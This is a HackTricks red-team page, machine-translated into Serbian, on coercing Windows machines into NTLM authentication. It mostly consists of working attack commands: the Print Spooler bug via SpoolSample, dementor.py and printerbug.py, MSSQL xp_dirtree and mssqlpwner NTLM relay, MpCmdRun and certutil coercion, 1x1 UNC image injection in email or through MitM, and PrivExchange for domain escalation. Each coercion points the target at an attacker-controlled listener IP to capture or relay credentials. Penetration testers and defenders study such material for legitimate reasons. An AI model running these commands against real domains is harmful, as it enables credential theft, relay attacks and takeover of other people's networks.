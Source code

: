 # Force NTLM Privileged Authentication

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SharpSystemTriggers

[**SharpSystemTriggers**](https://github.com/cube0x0/SharpSystemTriggers) je **kolekcija** **okidača za daljinsku autentifikaciju** napisanih u C# koristeći MIDL kompajler kako bi se izbegle zavisnosti od trećih strana.

## Zloupotreba Spooler Servisa

Ako je _**Print Spooler**_ servis **omogućen,** možete koristiti neke već poznate AD akreditive da **zatražite** od štampača na kontroleru domena **ažuriranje** o novim poslovima štampe i jednostavno mu reći da **pošalje obaveštenje nekom sistemu**.\
Napomena: kada štampač pošalje obaveštenje nekom proizvoljnom sistemu, mora da se **autentifikuje** prema tom **sistemu**. Stoga, napadač može naterati _**Print Spooler**_ servis da se autentifikuje prema proizvoljnom sistemu, a servis će **koristiti računar kao nalog** u ovoj autentifikaciji.

### Pronalaženje Windows Servera na domenu

Koristeći PowerShell, dobijte listu Windows mašina. Serveri su obično prioritet, pa hajde da se fokusiramo na njih:
```bash
Get-ADComputer -Filter {(OperatingSystem -like "*windows*server*") -and (OperatingSystem -notlike "2016") -and (Enabled -eq "True")} -Properties * | select Name | ft -HideTableHeaders > servers.txt
```
### Pronalaženje Spooler usluga koje slušaju

Koristeći malo modifikovani @mysmartlogin-ov (Vincent Le Toux) [SpoolerScanner](https://github.com/NotMedic/NetNTLMtoSilverTicket), proverite da li Spooler usluga sluša:
```bash
. .\Get-SpoolStatus.ps1
ForEach ($server in Get-Content servers.txt) {Get-SpoolStatus $server}
```
Možete takođe koristiti rpcdump.py na Linux-u i tražiti MS-RPRN protokol.
```bash
rpcdump.py DOMAIN/USER:PASSWORD@SERVER.DOMAIN.COM | grep MS-RPRN
```
### Zamolite servis da se autentifikuje protiv proizvoljnog hosta

Možete kompajlirati[ **SpoolSample odavde**](https://github.com/NotMedic/NetNTLMtoSilverTicket)**.**
```bash
SpoolSample.exe <TARGET> <RESPONDERIP>
```
ili koristite [**3xocyte's dementor.py**](https://github.com/NotMedic/NetNTLMtoSilverTicket) ili [**printerbug.py**](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py) ako ste na Linuxu
```bash
python dementor.py -d domain -u username -p password <RESPONDERIP> <TARGET>
printerbug.py 'domain/username:password'@<Printer IP> <RESPONDERIP>
```
### Kombinovanje sa Neograničenom Delegacijom

Ako je napadač već kompromitovao računar sa [Neograničenom Delegacijom](unconstrained-delegation.md), napadač bi mogao **da natera štampač da se autentifikuje protiv ovog računara**. Zbog neograničene delegacije, **TGT** računa **računara štampača** će biti **sačuvan u** **memoriji** računara sa neograničenom delegacijom. Pošto je napadač već kompromitovao ovaj host, moći će da **izvuče ovu kartu** i zloupotrebi je ([Pass the Ticket](pass-the-ticket.md)).

## RCP Prisilna autentifikacija

{% embed url="https://github.com/p0dalirius/Coercer" %}

## PrivExchange

Napad `PrivExchange` je rezultat greške pronađene u **Exchange Server `PushSubscription` funkciji**. Ova funkcija omogućava da Exchange server bude primoran od strane bilo kog korisnika domena sa poštanskim sandučetom da se autentifikuje na bilo kojem hostu koji obezbeđuje klijent preko HTTP-a.

Podrazumevano, **Exchange servis radi kao SYSTEM** i ima prekomerne privilegije (konkretno, ima **WriteDacl privilegije na domen pre-2019 Kumulativno Ažuriranje**). Ova greška se može iskoristiti da omogući **preusmeravanje informacija na LDAP i naknadno ekstraktovanje NTDS baze podataka domena**. U slučajevima kada preusmeravanje na LDAP nije moguće, ova greška se i dalje može koristiti za preusmeravanje i autentifikaciju na druge hostove unutar domena. Uspešna eksploatacija ovog napada omogućava trenutni pristup Administratoru Domena sa bilo kojim autentifikovanim korisničkim nalogom domena.

## Unutar Windows-a

Ako ste već unutar Windows mašine, možete naterati Windows da se poveže sa serverom koristeći privilegovane naloge sa:

### Defender MpCmdRun
```bash
C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0\MpCmdRun.exe -Scan -ScanType 3 -File \\<YOUR IP>\file.txt
```
### MSSQL
```sql
EXEC xp_dirtree '\\10.10.17.231\pwn', 1, 1
```
[MSSQLPwner](https://github.com/ScorpionesLabs/MSSqlPwner)
```shell
# Issuing NTLM relay attack on the SRV01 server
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -link-name SRV01 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on chain ID 2e9a3696-d8c2-4edd-9bcc-2908414eeb25
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -chain-id 2e9a3696-d8c2-4edd-9bcc-2908414eeb25 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on the local server with custom command
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth ntlm-relay 192.168.45.250
```
Ili koristite ovu drugu tehniku: [https://github.com/p0dalirius/MSSQL-Analysis-Coerce](https://github.com/p0dalirius/MSSQL-Analysis-Coerce)

### Certutil

Moguće je koristiti certutil.exe lolbin (Microsoft-ov potpisani binarni fajl) za primoravanje NTLM autentifikacije:
```bash
certutil.exe -syncwithWU  \\127.0.0.1\share
```
## HTML injection

### Via email

Ako znate **email adresu** korisnika koji se prijavljuje na mašinu koju želite da kompromitujete, možete mu jednostavno poslati **email sa 1x1 slikom** kao što je
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
i kada ga otvori, pokušaće da se autentifikuje.

### MitM

Ako možete da izvršite MitM napad na računar i ubacite HTML u stranicu koju će vizualizovati, mogli biste pokušati da ubacite sliku poput sledeće u stranicu:
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
## Cracking NTLMv1

Ako možete uhvatiti [NTLMv1 izazove pročitajte ovde kako ih probiti](../ntlm/#ntlmv1-attack).\
_Pametite da da biste probili NTLMv1 morate postaviti Responder izazov na "1122334455667788"_

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
